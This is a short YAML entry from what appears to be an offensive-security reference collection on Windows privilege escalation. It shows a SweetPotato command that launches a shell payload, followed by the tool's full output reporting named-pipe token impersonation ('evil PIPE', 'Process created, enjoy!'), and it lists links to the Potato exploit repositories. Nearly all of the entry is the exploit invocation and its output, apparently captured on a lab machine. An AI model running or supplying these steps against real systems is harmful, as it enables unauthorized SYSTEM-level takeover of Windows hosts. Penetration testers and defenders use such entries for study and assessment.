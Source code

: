 ```yaml
---
functions:
  privilege-escalation:
    - description: A collection of various native Windows privilege escalation techniques from service accounts to SYSTEM
      code: |
        ./SweetPotato.exe -p C:\Users\nathan\Nexus\nexus-3.21.0-05\shell.exe
        SweetPotato by @_EthicalChaos_
          Orignal RottenPotato code and exploit by @foxglovesec
          Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
          PrintSpoofer discovery and original exploit by @itm4n
          EfsRpc built on EfsPotato by @zcgonvh and PetitPotam by @topotam
        [+] Attempting NP impersonation using method PrintSpoofer to launch C:\Users\nathan\Nexus\nexus-3.21.0-05\shell.exe
        [+] Triggering notification on evil PIPE \\billyboss/pipe/6265ea16-b179-4951-a8f7-379aea157d97
        [+] Server connected to our evil RPC pipe
        [+] Duplicated impersonation token ready for process creation
        [+] Intercepted and authenticated successfully, launching program
        [+] Process created, enjoy!


resources: |
  https://github.com/CCob/SweetPotato
  https://github.com/ohpe/juicy-potato
  https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
  https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2
---
```

